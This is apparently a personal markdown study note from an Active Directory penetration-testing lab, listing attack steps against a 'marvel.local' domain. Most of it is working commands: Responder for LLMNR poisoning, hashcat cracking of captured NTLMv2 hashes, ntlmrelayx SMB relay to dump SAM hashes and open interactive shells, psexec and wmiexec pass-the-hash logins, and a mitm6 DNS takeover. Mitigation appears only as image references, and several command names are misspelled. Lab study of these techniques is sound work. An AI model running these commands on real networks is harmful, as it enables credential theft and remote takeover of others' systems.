 # Active Directory Initial Attacks

# LLMNR Poisioning
    1. Run Responder
        a. Sudo responder -l tun0/eth0 -dwp
    2. From PUNISHER machine go to file share ip will point to the attacker machine
    3. Step 3 Get DEM hash on the responder
    4. Crack the captured hash using hashcat
        a. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
        b. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --show [POT file of previously cracked hash]
        c. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force [force run on VM]
        d. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -O [optimise]
        e. Rockyou2021 --> latest rock you
        f. sudo responder -I eth0 -dPv ( Command that I used )

![alt text](Assests/LLMNR_1.png)

![alt text](Assests/LLMNR_2.png)

## Mitigation of LLMNR attack

![alt text](Assests/LLMNR_3.png)

# SMB Relay Attack

    1. Identify Host without SMB Signing
        a. Nmap --script=smb2-security-mode.nse -p445 <ip>
    2. Run Responder
        a. Edit responder.conf
            i. Sudo mousepad /etc/responder/Responder.conf and turn off http and smb
        b. Run responder
            i. Sudo responder -I eth0 -dwP
    3. Set up relay using Ntlmrelayx.py ( install using pimp my linux)
        a. Ntlmrelays.py -tf targets.txt -smb2support --dump-hashes dumps hashes
    4. Make a connection request to attacker machine same as LLMNR
        a. Capture SAM hashes on the responder 

    Other
    1.  Ntlmrelays.py -tf targets.txt -smb2support -I (get interactive shell)
    2. Nc <ip> <host> [connect to the above created shell]
    3. Ntlmrelays.py -tf targets.txt -smb2support -c "whoami" (run command)    

![alt text](Assests/SMB_RELAY_1.png)

![alt text](Assests/SMB_RELAY_2.png)

Switch of SMB and HTTP Flags in /etc/reponsder/Responder.conf

![alt text](Assests/SMB_RELAY_3.png)

![alt text](Assests/SMB_RELAY_4.png)

![alt text](Assests/SMB_RELAY_5.png)

![alt text](Assests/SMB_RELAY_6.png)

![alt text](Assests/SMB_RELAY_7.png)


# Gaining Shell access

        1. Through Metasploit
            a. Exploit(windows/smb/psexec)
                i. Both password and hash can be used to take access
        2. Psexec.py
            a. Password: Psexec.py marvel.local/fcastle:'password1'@<ip>
            b. Hash: psexec.py administrator@<IP> -hashes <hashdump>
        3. Wmiexec.py
        4. Smbexec.py

![alt text](Assests/SHELL_1.png)

![alt text](Assests/SHELL_2.png)

# DNS Takeover Attack
    Tool: mitm6
    Installed in pimp my kali
    
    
    Ntlmrelayx.py  -6 -t ldaps://192.168.138.149 -wh fakewpad.marvel.local -l lootme
    Sudo Mimt6 -d marvel.local

![alt text](Assests/DNS_T_1.png)

![alt text](Assests/DNS_T_2.png)

